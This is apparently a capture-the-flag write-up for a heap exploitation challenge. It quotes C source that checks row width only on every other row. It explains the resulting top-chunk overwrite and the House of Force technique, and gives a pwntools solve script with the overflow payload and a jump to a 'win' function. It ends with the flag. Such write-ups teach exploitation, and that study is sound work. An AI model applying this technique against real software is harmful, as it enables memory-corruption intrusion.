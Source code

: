`Binary`
The reversing of this part is really tedious, so I'm just going to do a mini writeup on the intended using the source code:
```c
void parse_map(unsigned int x, unsigned int y) {
    Map map = init_map(x, y);

    for (int i = 0; i < y; i++) {
        map.map_arr[i] = malloc(x);
    }

    int x_idx = 0;
    int row = 0;
    int readAmount = 0;
    char currentChar;

    while (readAmount < x * y) {
        currentChar = getchar();
        if (currentChar == '\n' || currentChar == '\0') {

            // if we just validate the parsing of every other row, we've saved
            // lots of work!
            if (row % 2 == 0) {
                if (x_idx != x) {
                    printf("You hurt yourself in your confusion! You need to draw squares!");
                    exit(-1);
                }
            }

            x_idx = 0;
            row++;
            continue;
        }

        if (currentChar == '\xdd') {
            printf("You decided to stop drawing for now\n");
            break;
        }

        map.map_arr[row][x_idx] = currentChar;
        x_idx++;
        readAmount++;
    }

    clear_screen();
    print_map(&map);
    shortest_path(&map);
}
```
This will always read `while (readAmount < x * y)`, that is `x*y` times. But you're allowed to just send newlines on every other line, and this will give you the ability to go out of bounds on the heap. We can use this to overwrite the top chunk (House of Force should be hinted by the heap leak perhaps), after that it's a pretty simple house of force. My solve script is a bit janky, but here it is:
```python
def pwn():
    io.recvuntil(b"please\n")
    io.sendline(b"50, 50")

    io.recvuntil(b"Before you begin drawing, an omniscent voice whispers: ")
    heap_leak = int(io.recvline().strip(), 16) + 0x10
    print(f"{heap_leak:#x}")

    pay = b"." * 50 + b"\n"
    for x in range(1,48):
        if x % 2 == 0:
            pay += b"."*45 + b"TZ" + b"."*3 + b"\n"
        else:
            pay += b"." + b"\n"

    pay += b"Z" * 50 + b"\n"
    
    pay += b"A"*56 + p64(0xfffffffffffffff1) + p8(0xdd)
    pause()
    io.sendline(pay)
    pause()
    io.sendline()
    io.sendline(b"Y")

    pay = (0x603070 + 0x40) - (heap_leak + 3990)
    io.sendline(f"{pay}".encode())
    
    io.sendlineafter(b"And your name:", p64(elf.symbols["win"]))
    io.interactive()
```

Flag: 
`TDCNET{d1jk5traS_s3cr3t_w4s_t0_us3_br34dth_f1rs7_s3arc8}`
